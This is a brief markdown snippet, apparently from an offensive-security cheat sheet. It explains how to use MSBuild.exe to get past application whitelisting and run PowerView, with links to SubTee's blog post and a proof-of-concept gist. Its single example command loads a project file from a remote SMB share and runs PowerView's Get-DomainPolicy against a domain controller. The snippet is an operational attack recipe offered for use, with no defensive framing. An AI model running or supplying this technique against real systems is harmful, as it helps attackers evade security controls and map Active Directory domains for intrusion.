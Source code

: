 ### Using msbuild.exe to execute PowerView for application whitlisting
* [More Infos](http://subt0x10.blogspot.de/2017/04/bypassing-application-whitelisting.html) - Blogpost from SubTee
* [GIST POC](https://gist.github.com/subTee/385c1f6831b14675056a21e6907b07b7)

Example:
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe \\1.2.3.4\share\powerviewdev.xml /p:FunctionName="Get-DomainPolicy -Server dc01.hackme.int"
```
